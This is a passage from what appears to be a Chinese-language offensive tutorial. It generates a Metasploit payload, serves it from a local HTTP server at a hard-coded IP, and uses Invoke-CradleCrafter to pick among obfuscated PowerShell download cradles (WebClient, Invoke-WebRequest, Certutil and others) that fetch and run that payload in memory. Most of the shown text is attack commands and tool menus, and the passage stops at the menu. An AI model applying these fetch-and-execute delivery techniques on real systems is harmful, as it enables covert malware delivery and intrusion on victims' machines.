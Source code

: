 使用 msf 生成一个 payload，在本地起一个 http 服务器，放到 http 服务器的目录下

[![](assets/1701612219-1d4de19667cdd8500f110c26875aff1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152109-984ad17c-ca85-1.png)

设置 url 为 http 服务器目录

```plain
set URL http://172.20.10.4:8000/key.txt
```

​ [![](assets/1701612219-a4b6e6e23c919c55f311ab6a36b1dfb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152110-98d678ee-ca85-1.png)

使用以下几个命令进行初始化

```plain
Invoke-CradleCrafter> MEMORY

Choose one of the below Memory options:

[*] MEMORY\PSWEBSTRING          PS Net.WebClient + DownloadString method
[*] MEMORY\PSWEBDATA            PS Net.WebClient + DownloadData method
[*] MEMORY\PSWEBOPENREAD        PS Net.WebClient + OpenRead method
[*] MEMORY\NETWEBSTRING         .NET [Net.WebClient] + DownloadString method (PS3.0+)
[*] MEMORY\NETWEBDATA           .NET [Net.WebClient] + DownloadData method (PS3.0+)
[*] MEMORY\NETWEBOPENREAD       .NET [Net.WebClient] + OpenRead method (PS3.0+)
[*] MEMORY\PSWEBREQUEST         PS Invoke-WebRequest/IWR (PS3.0+)
[*] MEMORY\PSRESTMETHOD         PS Invoke-RestMethod/IRM (PS3.0+)
[*] MEMORY\NETWEBREQUEST        .NET [Net.HttpWebRequest] class
[*] MEMORY\PSSENDKEYS           PS SendKeys class + Notepad (for the lulz)
[*] MEMORY\PSCOMWORD            PS COM object + WinWord.exe
[*] MEMORY\PSCOMEXCEL           PS COM object + Excel.exe
[*] MEMORY\PSCOMIE              PS COM object + Iexplore.exe
[*] MEMORY\PSCOMMSXML           PS COM object + MsXml2.ServerXmlHttp
[*] MEMORY\PSINLINECSHARP       PS Add-Type + Inline CSharp
[*] MEMORY\PSCOMPILEDCSHARP     .NET [Reflection.Assembly]::Load Pre-Compiled CSharp
[*] MEMORY\CERTUTIL             Certutil.exe + -ping Argument

```